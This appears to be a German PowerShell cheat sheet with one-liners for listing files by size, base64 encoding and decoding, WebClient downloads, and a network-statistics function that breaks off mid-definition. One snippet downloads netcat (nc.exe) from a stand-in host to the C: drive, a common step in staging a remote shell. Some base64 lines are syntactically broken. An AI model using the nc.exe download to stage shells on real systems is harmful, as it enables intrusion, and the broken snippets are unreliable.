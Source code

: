 ```powershell
gci -r | sort Length -desc | select fullname,length -f 20 |ft -a

gci = get-childitem
-r rekursiv
```

absteigend nach Länge sortieren filtert Ordner raus, die haben Length

### base64 in PS

#### decode string

```powershell
[System.Text.Encoding]::UTF8.GetString(System.Convert::FromBase64String("YmxhaGJsYWg="))
[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('MTIzCg=='))
[Text.Encoding]::ASCII.GetString([Convert]::FromBase64String('MTIzCg=='))
```

#### encode string

```powershell
[System.Convert]::ToBase64String(System.Text.Encoding::UTF8.GetBytes("nVnV"))
```

### Download einer Datei

```powershell
(New-Object System.Net.WebClient) 
.DownloadFile( 
 "http://mysite.com/nc.exe", 
  "c:\nc.exe" 
) 
```

### Powershell curl replacement

```powershell
(New-Object System.Net.WebClient).DownloadString("https://")
```

### List network services

```powershell
function Get-NetworkStatistics
{
	[OutputType('System.Management.Automation.PSObject')]
	[CmdletBinding(DefaultParameterSetName='name')]
	
	param(
		[Parameter(Position=0,ValueFromPipeline=$true,ParameterSetName='port')]
		[System.Int32]$Port='*',
		
		[Parameter(Position=0,ValueFromPipeline=$true,ParameterSetName='name')]
		[System.String]$ProcessName='*',
		
		[Parameter(Position=0,ValueFromPipeline=$true,ParameterSetName='address')]
		[System.String]$Address='*',		
		
		[Parameter()]
		[ValidateSet('*','tcp','udp')]
		[System.String]$Protocol='*',

		[Parameter()]
		[ValidateSet('*','Closed','CloseWait','Closing','DeleteTcb','Established','FinWait1','FinWait2','LastAck','Listen','SynReceived','SynSent','TimeWait','Unknown')]
		[System.String]$State='*'
		
```